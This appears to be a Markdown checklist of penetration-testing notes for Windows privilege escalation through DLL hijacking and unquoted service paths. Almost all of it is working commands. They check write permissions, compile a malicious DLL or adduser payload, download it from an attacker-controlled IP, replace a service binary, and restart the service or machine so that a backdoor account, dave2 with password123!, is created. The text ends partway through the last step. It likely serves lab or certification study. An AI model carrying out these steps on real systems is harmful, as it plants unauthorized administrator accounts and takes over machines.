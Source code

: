- [ ] Found a running service with a DLL
- [ ] Verified that the current user has write access
```
icacls "C:\path\to\dll.dll"
``````
- [ ] Recompile *mydll* if not using x86_64 from kali
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
- [ ] Download mydll
```
iwr -uri http://192.168.xxx.xxx/myDLL.dll -Outfile myDLL.dll
```
- [ ] Check if dave2 already exists
```
net user
```
- [ ] Copy adduser to file path
```
move .\myDLL.dll C:\path\to\dll.dll
```
- [ ] Attempt to restart system
```
shutdown /r /t 0
```
- [ ] Restart Service
```
Restart-Service service
```
- [ ] Check if dave2 exists
```
net user
```
- [ ] Log in with dave2:password123!

## Unquoted Service Paths

- [ ] Can exploit path traversals for the following order
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
- [ ] Double check permissions
```
icacls C:\Program Files
```
- [ ] Recompile *adduser* if not using x86_64 from kali
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
- [ ] Download adduser
```
iwr -uri http://192.168.xxx.xxx/adduser.exe -Outfile adduser.exe
```
- [ ] Check if dave2 already exists
```
net user
```
- [ ] Copy adduser to file path where it will execute first
```
move .\adduser.exe C:\path\to\executable.exe
```
- [ ] Attempt to restart system
```
shutdown /r /t 0
```
- [ ] Restart Service
```
```